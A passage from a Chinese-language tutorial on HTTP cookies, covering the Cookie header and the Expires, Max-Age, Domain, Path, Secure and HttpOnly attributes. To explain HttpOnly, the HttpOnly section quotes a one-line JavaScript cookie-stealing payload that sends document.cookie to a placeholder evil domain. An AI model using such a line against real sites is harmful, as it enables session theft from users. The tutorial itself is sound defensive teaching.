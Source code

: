上面代码会向服务器发送名为 `foo` 的 `Cookie`，值为 `bar`。

`Cookie` 字段可以包含多个 `Cookie`，使用分号（`;`）分隔。

`Cookie: name=value; name2=value2; name3=value3`

下面是一个例子。

```javascript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 `Cookie` 时，有两点是无法知道的。

- `Cookie` 的各种属性，比如何时过期。
- 哪个域名设置的 `Cookie`，到底是一级域名设的，还是某一个二级域名设的。

#### 3.Cookie 的属性

##### 3.1 Expires，Max-Age

`Expires` 属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 `Cookie`。它的值是 UTC 格式，可以使用 `Date.prototype.toUTCString()` 进行格式转换。

`Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

如果不设置该属性，或者设为 `null`，`Cookie` 只在当前会话（`session`）有效，浏览器窗口一旦关闭，当前 `Session` 结束，该 `Cookie` 就会被删除。另外，浏览器根据本地时间，决定 `Cookie` 是否过期，由于本地时间是不精确的，所以没有办法保证 `Cookie` 一定会在服务器指定的时间过期。

`Max-Age`属性指定从现在开始 `Cookie` 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 `Cookie`。

如果同时指定了 `Expires` 和 `Max-Age`，那么 `Max-Age` 的值将优先生效。

如果 `Set-Cookie` 字段没有指定 `Expires` 或 `Max-Age` 属性，那么这个 `Cookie` 就是 `Session Cookie`，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 `Cookie`。

##### 3.2 Domain，Path

`Domain` 属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 `Cookie`。如果没有指定该属性，浏览器会默认将其设为当前 URL 的一级域名，比如 `www.example.com` 会设为 `example.com`，而且以后如果访问 `example.com` 的任何子域名，HTTP 请求也会带上这个 `Cookie`。如果服务器在 `Set-Cookie` 字段指定的域名，不属于当前域名，浏览器会拒绝这个 `Cookie`。

`Path` 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，`Path` 属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 `Cookie`。比如，`PATH` 属性是 `/`，那么请求 `/docs` 路径也会包含该 `Cookie`。当然，前提是域名必须一致。

##### 3.3 Secure，HttpOnly

`Secure` 属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 `Cookie` 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的 `Secure` 属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

`HttpOnly` 属性指定该 `Cookie` 无法通过 JavaScript 脚本拿到，主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 `Cookie`。

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 `Cookie` 发往第三方服务器。如果设置了一个 `Cookie` 的 `HttpOnly` 属性，上面代码就不会读到该 `Cookie`。

#### 4.document.cookie
